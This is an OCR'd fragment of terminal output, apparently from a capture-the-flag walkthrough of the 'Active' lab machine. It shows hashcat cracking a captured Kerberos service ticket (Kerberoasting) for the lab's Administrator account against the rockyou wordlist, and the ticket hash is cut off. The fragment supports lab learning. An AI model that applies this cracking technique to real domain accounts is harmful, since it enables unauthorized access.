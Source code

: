 128e77fc7b6227bf27248efe90f6637e0b98bb4a72e6e452b80931649dec99bf2e8fa3c418889a6d83576110f1ad655f3e67c798b724e7b8ae1512b32ab4dbb5e46f1fd278124ba952467ec27014f0ea8e88346db8949b6c606fc9d7081ad03b85d7fa15b96a60' > s  
pn.txt  
root@kali:~/active# hashcat -m 13100 -a 0 spn.txt /usr/share/wordlists/rockyou.txt  
hashcat (v5.0.0) starting…

# OpenCL Platform #1: The pocl project

*   Device #1: pthread-AMD Ryzen 7 1700 Eight-Core Processor, 1024/2295 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts  
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  
Rules: 1

Applicable optimizers:

*   Zero-Byte
*   Not-Iterated
*   Single-Hash
*   Single-Salt

Minimum password length supported by kernel: 0  
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.  
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.  
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.  
Watchdog: Temperature abort trigger disabled.

*   Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D D  
    GST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'  
    Dictionary cache hit:
*   Filename..: /usr/share/wordlists/rockyou.txt
*   Passwords.: 14344385
*   Bytes…..: 139921507
*   Keyspace..: 14344385

$krb5tgs$23$_Administrator$ACTIVE.HTB$active/CIFS~445_$10589d87c1a98b404545a09ac0edbec8$9470373fe8ddd05e0cb35e6307ce19f2b782e291b568af5f62b6096dfb46dee03cd8add92816c256b21fc8c475acdf49e825e2f32a361bd4b94b9d56eb7  
de54b8a728752c6f7e50ceb6024d388b4ba99ba4a02dd3975355f49f9184f1e6b7606f5554d5e45d28693a5aef90f0591d36567d0e8c641e16e7c8d05047b2d9d2040e5be0a37abcb7e0e106f0a98f5861f000506daef442270dba05d0a0b593a86cd2cfb231ed9a623  
da2ec87bfd185a90c79baf2d05b9f6a0edd79c9a25a2087f22211dc99749099ac091fceab6647e6da19164dba1bd174df0bb0e3f82ba790f840b7b0d19fbc8d4e21077b9f7dc45cfc9e54ce9b788293c6d222504fdc995923ad940bdfc80da606708f0485b448a9e689  
d165f07b1d5da0f249c5db85d98d54be7d3a985808cfee3bbeb3f875eb33e6b818ed5d2f699960280092ebf9506d0510bb3f23fd1d94ce0ee3cbd3066240ddeda67986a5b70334baea5dbd88743fb3ef843ea170ecd38469a5fa1dc957566579ea25ec3c81f0e8dbaa6  
8e0c203409ebedd098cc928cab4632c401d7c5a64cc997ed3ec6e87b37b44d5dc349c25edf41623df54cde4cc356fe1023ac62684a9278bf0756d46634eb1a0379d614dd78488293b8e7a7e770ac078afdc6b60f0edd4c336557a6791c398126c61c9e546894e29d5d7  
ae3111e13fbdd4c7b68be0d7e71520d3f7f1ec6826fe24683a7c9c32a16c28221ebd8b4fe61a189cfce3d2115d9840aa9e3d77a46077d05a6cca034a81117f1240fc21c9ccaba16c5bed6815a8338b75dc293b193f45b8354e0f5aa2acad7c1606bd5d30651e9661663  
211b1e11c07073c9d932e157073fd8940055a1fb2c03260af72a521c9f633412b3d1bf9e9e21b755a92d812a1e6061dff7c0564286a0c897e6be885a8fdb8b48c6314ed2d118d504675b9935f65eafecd69f57894fdee85a32950f9ef8f21c5f6010019837d1fa1cd68  